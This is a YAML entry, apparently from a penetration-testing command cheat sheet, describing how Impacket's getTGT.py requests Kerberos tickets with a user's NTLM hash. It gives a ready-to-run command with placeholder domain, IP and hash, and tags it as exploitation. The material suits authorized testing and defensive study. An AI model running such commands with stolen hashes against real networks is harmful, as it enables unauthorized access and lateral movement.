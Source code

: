 ```yaml
---
title: |
  Request Kerberos (TGT) tickets
description: |
  Impacket's getTGT.py uses a valid user's NTLM hash to request Kerberos tickets, in order to access any service or machine where that user has permissions.

  Command Reference:

  	Target IP: 10.10.10.1

  	Domain: test.local

  	Username: test

  	Hash: 2a3de7fe356ee524cc9f3d579f2e0aa7

command: |
  python3 getTGT.py test.local/test -dc-ip 10.10.10.1 -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
items:
  - Hash
  - Username
services:
  - Kerberos
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/getTGT.py
  - https://www.tarlogic.com/en/blog/how-to-attack-kerberos/
---
```

